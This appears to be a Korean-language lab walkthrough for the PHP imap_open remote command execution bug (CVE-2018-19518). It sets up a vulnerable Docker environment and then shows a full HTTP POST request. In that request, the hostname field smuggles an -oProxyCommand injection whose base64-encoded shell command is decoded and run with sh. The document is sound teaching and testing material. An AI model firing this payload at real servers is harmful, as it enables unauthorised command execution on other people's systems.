

# PHP IMAP Remote Command Execution (CVE-2018-19518)

PHP의 imap_open() 함수가 내부적으로 rsh 명령을 호출하는데, Debian/Ubuntu 시스템에서는 rsh가 ssh로 동작하며, 이때 공격자가 ssh의 -oProxyCommand 옵션을 조작하면 외부 명령을 실행시킬 수 있어 원격 명령 실행(RCE) 취약점이 발생할 수 있다.

참고 자료(References):

- <https://bugs.php.net/bug.php?id=77153>
- <https://github.com/Bo0oM/PHP_imap_open_exploit>
- <https://antichat.com/threads/463395/#post-4254681>
- <https://nvd.nist.gov/vuln/detail/CVE-2018-19518>

## 환경설정

다음 명령어를 실행하여 취약한 PHP 버전의 서버를 시작합니다.

```
docker compose up -d
```

서버가 실행되면 브라우저에서 `http://your-ip:8080`에 접속하여 웹 페이지에 접근할 수 있습니다. 해당 페이지는 메일 서버와의 연결이 정상적으로 이루어지는지 확인하는 기능을 제공하며, 이를 위해 서버 주소, 사용자 이름, 비밀번호를 입력해야 합니다.


## 실행과정

아래와 같은 요청을 보내서 명령을 실행합니다. `echo '1234567890'>/tmp/test0001`

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

`docker compose exec web bash` 명령어를 실행하여 컨테이너에 접속한 후, /tmp/test0001 파일이 성공적으로 생성된 것을 확인할 수 있습니다.


